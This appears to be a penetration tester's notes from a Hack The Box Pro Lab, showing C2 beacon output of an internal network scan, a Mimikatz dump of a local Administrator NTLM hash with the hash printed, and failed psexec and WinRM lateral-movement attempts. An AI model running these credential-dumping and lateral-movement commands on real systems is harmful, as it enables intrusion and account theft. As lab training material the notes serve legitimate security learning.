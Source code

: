 ```powershell
172.16.1.5:636
172.16.1.5:593

[10/06 11:41:51] [+] received output:
172.16.1.5:464
172.16.1.5:389

[10/06 11:41:57] [+] received output:
172.16.1.5:139
172.16.1.5:135
172.16.1.5:88
172.16.1.5:53

[10/06 11:42:59] [+] received output:
172.16.1.5:445 (platform: 500 version: 10.0 name: DC01 domain: CORP)
172.16.1.15:445 (platform: 500 version: 10.0 name: SQL01 domain: CORP)
172.16.1.24:445 (platform: 500 version: 10.0 name: WEB-WIN01 domain: CORP)
172.16.1.26:445 (platform: 500 version: 10.0 name: FS01 domain: CORP)
172.16.1.30:445 (platform: 500 version: 10.0 name: MS01 domain: CORP)
172.16.1.36:445 (platform: 500 version: 10.0 name: WSADM domain: CORP)

[10/06 11:43:04] [+] received output:
172.16.1.101:445 (platform: 500 version: 6.1 name: WS02 domain: CORP)
172.16.1.200:445
172.16.1.201:445
172.16.1.220:445
Scanner module is complete
```

Try Bloodhound next.


Admin NTLM from MS01 Mimikatz:
```powershell
[10/06 11:24:55] beacon> mimikatz token::elevate ; lsadump::sam
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7facdc498ed1680c4fd1448319a8c04f
```
All powerview commands getting errors.
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231006113559.png]]
New scan above shows 5985 is open on alot of boxes, going to try to winrm jump to them
- setup SMB listener to jump with
![[Penetration Testing v2/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231006115923.png]]
jump winrm64 172.16.1.36 smb // didnt work

jump psexec64 172.16.1.36 smb  // nope didnt work

WSADM.corp.local

jump psexec64 WSADM.corp.local smb  // nope didnt work
jump winrm63 WSADM.corp.local smb 
